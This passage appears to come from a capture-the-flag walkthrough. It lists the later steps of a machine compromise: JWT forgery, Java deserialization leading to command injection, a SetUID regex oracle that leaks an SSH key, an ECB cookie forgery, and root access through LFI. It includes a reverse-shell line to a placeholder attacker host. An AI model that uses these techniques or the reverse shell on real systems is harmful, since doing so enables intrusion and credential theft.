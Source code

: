 6. **JWT Forging and Deserialization Vulnerability**:
   - Technique: Used the secret key from LFI to forge a JWT with a manipulated payload. Crafted a custom Java serialized object to exploit a deserialization vulnerability in the GlassFish application.
   - Steps:
     - Downloaded Java source files (`User.java`, `Profile.java`, `UserProfileStorage.java`) from `/backups`.
     - Identified a command injection vulnerability in `UserProfileStorage.java` where an admin profile triggers a shell command with the username.
     - Created a Java project in Eclipse to generate a serialized object (`ipsec.ser`) with `adminProfile=true`.
     - Uploaded `ipsec.ser` to `/data/uploads` via the application's upload functionality.
     - Forged a JWT with a username containing a directory traversal payload (`../../data/uploads/ipsec.ser`) to load the malicious serialized object.
   - Outcome: Achieved command execution by triggering a ping to the attacker's machine, later upgraded to a reverse shell (`/dev/tcp/<attacker-ip>/9000`).

7. **SetUID Binary Exploitation**:
   - Technique: Identified a SetUID binary (`/usr/bin/cmatch`) owned by user `john` using `find / -perm -4000`.
   - Analysis: `cmatch` counts matches of a pattern in a file (e.g., `cmatch /etc/passwd root` returned 3 matches). Supported regex, allowing boolean-based file content exfiltration.
   - Exploitation: Wrote a Python script to brute-force the contents of `/home/john/.ssh/id_rsa` one character at a time using regex patterns, leveraging `cmatch`'s SetUID privileges.
   - Outcome: Extracted John's SSH private key.

8. **SSH Key Cracking**:
   - Technique: Used `john` to crack the passphrase of the SSH key with a wordlist and passwords from the system (e.g., Hibernate database password `q9...`).
   - Outcome: Successfully cracked the passphrase, allowing SSH login as user `john`.

9. **Further Enumeration as John**:
   - Technique: Searched for files owned by `john` using `find / -user john`. Identified a zip file (`/var/backups/flask_app_secure.back`).
   - Outcome: Copied and unzipped the file, revealing a Flask application (`app.py`, `auth.py`) with custom crypto in ECB mode.

10. **ECB Mode Crypto Exploitation**:
    - Technique: Analyzed `app.py` and identified ECB mode encryption (block size 16 bytes) for cookies in the format `username,secret,true/false`. Exploited ECB's property where identical plaintext blocks produce identical ciphertext blocks.
    - Steps:
      - Used XSS to steal a cookie from the Flask app (port 8088, discovered via `ss -lntp` and `flaskbeta.service`).
      - Created an SSH tunnel (`ssh -L 8088:localhost:8088`) to access the app locally.
      - Wrote a Python script to brute-force the secret one byte at a time by padding usernames (e.g., 15 A's + guess) and matching ciphertext blocks.
      - Crafted a cookie with `admin,secret,true` to gain admin access.
    - Outcome: Accessed `/admin` on port 8088, revealing another LFI vulnerability.

11. **Root LFI and Privilege Escalation**:
    - Technique: Used the admin LFI on port 8088 to read `/root/.ssh/id_rsa`.
    - Outcome: Extracted the root SSH private key, used it to SSH as `root`, and achieved full system compromise.

